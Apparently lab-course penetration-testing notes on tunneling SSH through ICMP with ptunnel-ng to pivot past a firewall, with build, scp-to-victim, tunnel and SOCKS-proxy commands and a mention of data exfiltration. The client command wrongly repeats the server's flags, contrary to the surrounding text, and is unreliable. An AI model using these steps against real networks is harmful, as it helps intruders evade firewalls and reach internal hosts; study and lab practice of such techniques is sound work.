 # ICMP Tunneling with SOCKS

---

ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.


we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.
```shell-session
$ git clone https://github.com/utoni/ptunnel-ng.git
```
build tool
```shell-session
 sudo ./autogen.sh 
```
 Alternative approach of building a static binary

```shell-session
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```

`transfer ptunnel to victim`
```shell-session
$ scp  ptunnel ubuntu@10.129.202.64:~/
```

` method2: transfer whole repo`
```
$ scp  -r ptunnel-folder ubuntu@10.129.202.64:~/
```

With ptunnel-ng on the target host, we can start the server-side of the ICMP tunnel using the command directly below.

`Starting the ptunnel-ng Server on the Target Host`
```shell-session
$ sudo ./ptunnel-ng -r10.129.202.64 -R22
```
The IP address following `-r` should be the IP of the jump-box we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use. We would benefit from using this same thinking & consideration during an actual engagement.

Back on the attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222 (`-l2222`). Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.

```
sudo ptunnel-ng/src/ptunnel-ng -r10.129.202.64 -R22
```

With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).

`confirm it worked by how the tunnel redirects traffic on port 2222 on localhost to the target'
```shell-session
ssh -p2222 -lubuntu 127.0.0.1
```

`add dynamic port forward to interact with internal networks`
```
 attc$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
We could use proxychains with Nmap to scan targets on the internal network (172.16.5.x). Based on our discoveries, we can attempt to connect to the target.